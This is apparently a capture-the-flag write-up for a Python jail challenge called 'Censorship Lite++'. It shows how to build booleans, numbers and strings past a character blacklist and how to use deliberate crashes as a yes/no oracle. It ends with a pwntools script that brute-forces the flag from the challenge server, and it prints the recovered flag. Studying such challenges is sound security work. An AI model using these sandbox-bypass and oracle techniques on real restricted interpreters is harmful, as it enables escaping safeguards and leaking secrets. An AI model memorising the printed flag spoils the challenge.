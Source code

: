 # Censorship Lite++

## Intoduction

In this Pyjail Challenge we had to leak a variable flag which was stored in the variable `_`.

And we couldn't use any non ascii chars nor any characters found in `lite0123456789 :< :( ): :{ }: :*\ ,-.`

## Creating Booleans
This step is quite straight forward. By using strings and equal signs we can use `'a'=='a'` for `True` and `'a'=='b'` for `False`.

## Creating Numbers
Zero and one can be created by using the booleans as values. `False` represents 0 and `True` represents 1. It would be technically possible to create any number by just adding many `True`'s together. Eg `True+True+True+True => 4`

Luckly we were still allowed to use quotes which reduced the payload by quite a lot by allowing us to create bytestrings. And by accessing the indecies of the bytestring we can get much higher numbers `b"a"[False] => 97`. 

Combining those to features we can create any number (it uses a bit of bruteforce...):

```py
def create_num_v2(x):
    if x < 60:
        while True:
            a = random.choice(string.ascii_letters)
            b = random.choice(string.ascii_letters)
            if any([i in (a+b) for i in list("lite0123456789 :< :( ): :{ }: :*\ ,-.")]):
                continue

            if ord(a[0]) ^ ord(b[0]) != x:
                continue

            return f"[b'{a}'['a'=='b']^b'{b}'['a'=='b']]['a'=='b']"
    else:
        return f"{create_num_v2(50)}+{create_num_v2(x - 50)}"
```

## Creating Strings
For creating any string we can abuse the format string operator `"%c" % 65 => 'A'`

## Make If Statements
Because we can't access any functions we need to crash the application to differentiate.
This can be done by abusing the optimizations of python:
```py
b = 1==1 or exit()
print(b)
```
will output `True`
while 
```py
b = 1==9 or exit()
print(b)
```
won't output anything. Because Python knows that `True or ...` will always be True it ignores what follows.

and heres the function to crash it `or[b'a'^b'a']`

## Putting Everything Together

```py
from pwn import *
import string


def create_num_v2(x):
    if x < 60:
        while True:
            a = random.choice(string.ascii_letters)
            b = random.choice(string.ascii_letters)
            if any([i in (a+b) for i in list("lite0123456789 :< :( ): :{ }: :*\ ,-.")]):
                continue

            if ord(a[0]) ^ ord(b[0]) != x:
                continue

            return f"[b'{a}'['a'=='b']^b'{b}'['a'=='b']]['a'=='b']"
    else:
        return f"{create_num_v2(50)}+{create_num_v2(x - 50)}"



r = remote("amt.rs", 31672)


known = "amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}"
r.recvuntil("code:")
for a in range(len(known), 99):
    for c in string.printable:
        payload = f"b=_[{create_num_v2(a)}]=='%c'%[{create_num_v2(ord(c))}]['a'=='b']or[b'a'^b'a']"
        r.sendline(payload)
        #print(c, payload)
        res = r.recvuntil("code:")
        #print(res)
        if b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" not in res:
            known += c
            print(known)
            break

```
